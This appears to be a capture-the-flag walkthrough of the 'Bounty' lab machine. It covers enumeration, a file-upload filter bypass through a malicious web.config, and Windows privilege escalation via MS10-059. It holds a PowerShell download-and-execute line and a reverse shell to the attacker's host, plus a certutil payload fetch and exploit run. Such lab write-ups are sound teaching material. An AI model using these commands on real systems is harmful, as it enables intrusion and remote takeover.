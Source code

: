 # About
Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches. 
## Skills Required
● Basic knowledge of VBScript or C#, VB.NET
## Skills Learned
● web.config payload creation
● Identification of missing security patches
● Exploit selection and execution
## Enumeration
`nmap -A -T4 -p- 10.129.30.81`
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
```
Looking at the responses from the server in burb shows us this site is most likely running ASP

![](Images/Pasted%20image%2020250417104923.png)

So we can tie that into our enumeration for Fuzzing
`ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.30.81:80/FUZZ`

![](Images/Pasted%20image%2020250417105236.png)

`ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.30.81:80/FUZZ.aspx
`
![](Images/Pasted%20image%2020250417105255.png)

![](Images/Pasted%20image%2020250417105749.png)

## Exploit

The transfer file appears to be a file upload and the files are sent to the uploaded files. Lets first see if we can get a simple aspx webshell. It ends up erroring out which probably means we have some sort of filtering on the upload

![](Images/Pasted%20image%2020250417105828.png)

Lets see if we can modify the request to test extensions using intruder.
Nothing seemed to have gotten really anywhere with the basic, but I was using a bad payload. The website allows uploads of jpg files.

![](Images/Pasted%20image%2020250417111109.png)

![](Images/Pasted%20image%2020250417110545.png)

![](Images/Pasted%20image%2020250417111140.png)

Using this we can attempt to trick the filter into letting us through with methods such as double extensions.

![](Images/Pasted%20image%2020250417110707.png)
![](Images/Pasted%20image%2020250417110713.png)

Navigating to cmdasp.aspx.jpg didn't get us execution, so maybe we need to use a nullbyte in order to store it as a aspx file while passing the whitelist as jpg. 

![](Images/Pasted%20image%2020250417111533.png)

Since that didn't work I went back to enumerating and found a list of asp extensions and used that for intruder, and made sure to disable URL encoding.

![](Images/Pasted%20image%2020250417112714.png)

We find another allowed upload is a .config file.
Upon a quick google search we find ASP.NET config file is web.config. [Web.Config Reverse Shell](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config)
We will have to do some modifications to this to get a shell.
`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 > shell.ps1`
We will need to add the commands to run the reverse shell.
`echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.251 -Port 4444' >> shell.ps1`
the config file will not look like this
`obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.251/shell.ps1')")`
If everything goes right we pop a shell as user merlin

![](Images/Pasted%20image%2020250417115051.png)

Grab the user flag and keep moving forward.

![](Images/Pasted%20image%2020250417115409.png)

## Priv Esc
Sysinfo
```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          4/17/2025, 5:26:39 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,472 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,486 MB
Virtual Memory: In Use:    609 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.30.81
                                 [02]: fe80::e518:9b96:337f:8fe3
                                 [03]: dead:beef::e518:9b96:337f:8fe3

```
`python2 exploit-suggester.py --database 2025-04-16-mssb.xls --systeminfo sysinfo.txt`
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

**MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important**

![](Images/Pasted%20image%2020250417120256.png)

`certutil -urlcache -split -f http://10.10.14.251:8080/exploit.exe exploit.exe`

![](Images/Pasted%20image%2020250417120429.png)

`.\exploit.exe 10.10.14.251 4445`

![](Images/Pasted%20image%2020250417120716.png)

![](Images/Pasted%20image%2020250417120723.png)
